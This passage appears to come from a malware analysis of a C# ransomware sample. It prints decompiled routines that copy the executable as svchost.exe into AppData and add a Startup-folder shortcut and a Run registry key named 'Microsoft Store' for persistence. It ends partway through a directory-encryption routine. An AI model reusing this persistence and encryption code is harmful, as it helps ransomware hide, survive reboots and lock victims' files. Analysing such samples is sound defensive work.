 ```cs
```

- Copies  Friendlyname (current executable name) if it doesn't already exist to **/AppData/Roaming/** under the name of **svchost.exe** then creates a new ProcessStartInfo object that specifies the process to start and sets the appropriate properties for the process to run with elevated privileges.

```cs
private static void addLinkToStartup()
		{
			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.Startup);
			string str = Process.GetCurrentProcess().ProcessName;
			using (StreamWriter streamWriter = new StreamWriter(folderPath + "\\" + str + ".url"))
			{
				string location = Assembly.GetExecutingAssembly().Location;
				streamWriter.WriteLine("[InternetShortcut]");
				streamWriter.WriteLine("URL=file:///" + location);
				streamWriter.WriteLine("IconIndex=0");
				string str2 = location.Replace('\\', '/');
				streamWriter.WriteLine("IconFile=" + str2);
			}
		}
```

- also it adds a link file to this  path ( **\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup**)  under **svchost.url** .

```cs
private static void registryStartup()
		{
			try
			{
				RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
				registryKey.SetValue("Microsoft Store", Assembly.GetExecutingAssembly().Location);
			}
			catch
			{
			}
		}
```

- utilizing the SetValue method to assign the location of the present executable file as the value for the "**Microsoft Store**" key. The objective is to add a registry entry to the Windows registry, which enables the current application to launch automatically during system startup

### Encrypt methods 

#### Directory Encryption
```cs
	private static void encryptDirectory(string location)
		{
			try
			{
				string[] files = Directory.GetFiles(location);
				bool flag = true;
				for (int i = 0; i < files.Length; i++)
				{
					try
					{
						string extension = Path.GetExtension(files[i]);
						string fileName = Path.GetFileName(files[i]);
						if (Array.Exists<string>(Program.validExtensions, (string E) => E == extension.ToLower()) && fileName != Program.droppedMessageTextbox)
						{
							FileInfo fileInfo = new FileInfo(files[i]);
							fileInfo.Attributes = FileAttributes.Normal;
```